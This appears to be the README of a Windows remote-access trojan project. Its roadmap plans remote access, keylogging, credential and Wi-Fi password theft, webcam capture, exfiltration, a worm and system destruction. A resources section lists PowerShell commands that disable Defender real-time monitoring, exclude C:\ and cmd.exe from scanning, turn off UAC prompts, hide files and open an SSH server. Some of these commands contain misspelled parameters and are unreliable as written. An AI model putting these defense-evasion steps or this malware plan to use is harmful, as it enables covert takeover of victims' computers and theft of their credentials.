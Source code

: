 # Roadmap:
Target Build:
- [x] staging
- [x] remote access
- [x] config file builder [.? extension]

Attacker Build:
- [x] console build [python3]
- [x] update

Installers:
- [ ] listener option
- [ ] USB RubberDucky
- [ ] BashBunny
- [ ] shortcutting

Modules | Payloads:
- [x] remote console
- [ ] reconnaissance scan
	- web history
	- computer info
- [ ] escalation
	- windows account
	- web credentials
	- wifi credentials
- [ ] destroy defender
	- firewall
- [ ] keylogger
	- backspace detection
- [ ] screenshots
- [ ] webcam
- [ ] exfiltration
	- scp
- [ ] file upload
- [ ] worm
	- vbs special 
- [ ] custom desktop shortcuts
- [ ] adware
- [ ] killswitch
- [ ] break pc | bsod
- [ ] payload builder

Extraneous:	
- [ ] port forwarding
- [ ] vm detection
- [ ] obfuscation
- [ ] exploit for non priv users

# Resources:

## show/hide files
```
# show files
attrib -h -s -r FILE

# hide file
attrib +h +s +r FILE
```

## ssh
```
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Start-Service sshd
Set-Service -Name sshd -StartupType 'Automatic'
Get-NetFirewallRule -Name *ssh*
```

## exclusion path
```
Set-MpPreference -DisableRealtimeMonitoring true
Add-MpPreference -ExclusionPatch c:\
Add-MpPreference -EsclusionProcess c:\windows\system32\cmd.exe
```

## disable uac
```powershell
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0
```
